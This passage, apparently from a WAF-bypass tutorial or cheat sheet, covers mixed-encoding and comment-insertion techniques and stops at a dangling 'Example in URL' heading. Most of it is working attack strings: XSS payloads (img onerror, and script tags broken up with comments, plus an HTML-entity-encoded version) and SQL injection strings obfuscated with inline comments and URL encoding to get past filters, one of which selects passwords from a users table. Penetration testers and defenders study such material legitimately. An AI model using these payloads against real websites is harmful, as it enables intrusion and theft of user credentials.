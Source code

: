 ```bash
&quot;&gt;&lt;img src=x onerror=confirm&lpar;&rpar;&gt;
```
**Encoded payload:**

&#34;&#62;&#60;img src=x onerror=confirm&#40;&#41;&#62;

### 5. Mixed encoding technique

These rules usually tend to filter a specific type of encoding. These filters can be avoided by mixed encoding payloads. New lines and tabs are added more to obfuscation.

**Obfuscate payload:**

```bash
<A HREF="h

tt p://6 6.000146.0x7.147/">XSS</A>
```

### 6. Commenting technique

Comments obfuscate standard payload vectors. Different payloads have different ways of being obfuscated.

**Blocked by WAF:**

```bash
<script>confirm()</script>
```

**Skipped technique:**

```bash
<!--><script>confirm/**/()/**/</script>
```

**Blocked by WAF:**

```bash
/?id=1+union+select+1,2--
```

**Skipped technique:**

```bash
/?id=1+un/**/ion+sel/**/ect+1,2--
```

Insert comments in the middle of attack strings. For example, /*!SELECT*/ can be overlooked by the WAF but passed to the target application and processed by a mysql database.

**Example in URL:**

> index.php?page_id=-1 %55nION/**/%53ElecT 1,2,3,4
> 
> 
> 'union%a0select pass from users#

**Example in URL:**

